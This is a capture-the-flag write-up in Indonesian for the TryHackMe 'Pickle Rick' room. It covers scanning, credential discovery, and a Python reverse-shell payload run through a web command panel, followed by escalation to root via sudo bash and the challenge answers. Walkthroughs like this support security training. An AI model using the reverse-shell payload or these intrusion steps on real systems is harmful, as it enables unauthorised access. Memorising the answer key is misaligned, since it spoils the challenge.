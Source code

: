 # CTF - Pickle Rick
- TryHackMe Challenge: https://tryhackme.com/room/picklerick
- IP Machine: 10.10.172.106

# Nmap Report
- Baris perintah: `nmap -sV -A <IP Machine>`
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 19:44 EDT
Nmap scan report for 10.10.172.106
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6bbf9e8176b483c616e7fe7b3dc6ad2 (RSA)
|   256 9d8527a53623d37ba397cb9f308841ae (ECDSA)
|_  256 cc423adf1180534d8445e1357c2cac92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/29%OT=22%CT=1%CU=36558%PV=Y%DS=2%DC=T%G=Y%TM=64C5A47
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%II=I%TS=8)SEQ(SP=1
OS:04%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   193.06 ms 10.8.0.1
2   195.02 ms 10.10.172.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.35 seconds
```

## Gobuster
- Baris perintah: `gobuster dir -u http://<IP Machine> -w <wordlists>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%201.JPG)

## Content Discovery
- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%202.JPG)

- Tekan **Ctrl+U** atau klik kanan pada halaman lalu pilih **View Page Source** untuk menampilkan source code halaman. Disini ditemukan informasi bahwa usernamenya adalah **R1ckRul3s**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%203.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%204.JPG)

- Buka halaman `http://<IP_machine>/robots.txt` di tab baru. Disini ditemukan sebuah password

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%205.JPG)

```sh
username: R1ckRul3s
password: Wubbalubbadubdub
```

## Gain Access
- Lakukan login ke halaman `http://<IP_machine>/login.php` dengan username dan password yang ditemukan diatas

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%206.JPG)

- Jika kita ketik `ls` lalu tekan Execute maka diperoleh daftar file sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%207.JPG)

- Jika kita ketik `cat Sup3rS3cretPick13Ingred.txt` lalu tekan Execute maka muncul pesan bahwa perintah tersebut telah di block

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%208.JPG) 

- Gunakan Payload berikut untuk masuk ke server. Ganti **10.8.142.62** dengan IP tun0 pada komputer yang anda gunakan
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.142.62",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

- Buka terminal dan jalankan netcat dengan printah `nc -lnvp <port>`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%209.JPG)

- Copy payload dan paste ke halaman `http://<IP_machine>/portal.php` lalu tekan Execute

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2010.JPG)

- Netcat berhasil terkoneksi dan masuk sebagai user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2011.JPG)

- Disini kita bisa membaca file **Sup3rS3cretPick13Ingred.txt** dengan perintah `cat Sup3rS3cretPick13Ingred.txt` yang sebelumnya diblock

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2012.JPG)

- Di directory **/home** ditemukan home directory **rick**. Navigasi ke directory **/home/rick** dan disana ditemukan file **second ingredients**. Buka file tersebut dengan perintah `cat 'second ingredients'` 

## Privilege Escalation
- Untuk menemukan final ingredient diperlukan akses user root. Jalankan 2 baris perintah ini untuk memperoleh akses user root

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo bash
```

- Setelah berhasil masuk ke user root, navigasi ke directory **/root** maka disini ditemukan file **3rd.txt** yang berisi final ingredient. Buka file tersebut dengan perintah `cat 3rd.txt`

## Pertanyaan dan Jawaban:

- **Pertanyaan:** What is the first ingredient that Rick needs?
```sh
mr. meeseek hair
```

- **Pertanyaan:** What is the second ingredient in Rick’s potion?
```sh
1 jerry tear
```

- **Pertanyaan:** What is the last and final ingredient?
```sh
fleeb juice
```